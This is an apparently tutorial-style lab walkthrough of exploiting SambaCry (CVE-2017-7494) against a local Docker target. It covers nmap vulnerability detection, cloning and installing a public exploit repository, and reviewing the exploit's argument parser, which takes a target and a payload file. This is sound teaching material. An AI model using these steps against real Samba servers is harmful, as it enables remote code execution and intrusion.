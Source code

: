 ![connectToContainer](/img/EternalRed/connectToContainer.png)
<br>
We are going to go through our exploitation process in a phase wise approach. The first one being the detection phase.
<h2>Detection Phase</h2>
<br>
So we want to detect if the target is vulnerable to Sambacry. We will be using Nmap for this. Nmap has an NSE script to detect this vulnerability and we can pretty much use the same for the purpose of detection as shown below.
<br>
```
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 127.0.0.1
```
<br>
![detection](/img/EternalRed/detect.png)
<br>
Oh! So we are vulnerable. I intentially set the target ip to 127.0.0.1 because the docker command we used to start the box binds the port 445 to our local port 445. So we actually targeted the vulnerable box, not our own attacker machine.
<br>
<h2>The Exploit Setup</h2>

First let's grab the exploit and install everything needed to perform the exploitation.
<br>
```
git clone https://github.com/opsxcq/exploit-CVE-2017-7494
cd exploit-CVE-2017-7494
pip install -r requirements.txt
```
<br>
Now we have all the required setup. But, before running it, let's check the code. Starting with exploit.py we should go down until the __main__ function. Here is where the actual code execution starts. 
<br>
```
    ap = ArgumentParser(description="Sambacry (CVE-2017-7494) exploit by opsxcq")
    ap.add_argument("-t", "--target", required=True, help="Target's hostname")
    ap.add_argument("-e", "--executable", required=True, help="Executable/Payload file to use")
    ap.add_argument("-s", "--remoteshare", required=True, help="Executable/Payload shared folder to use")
```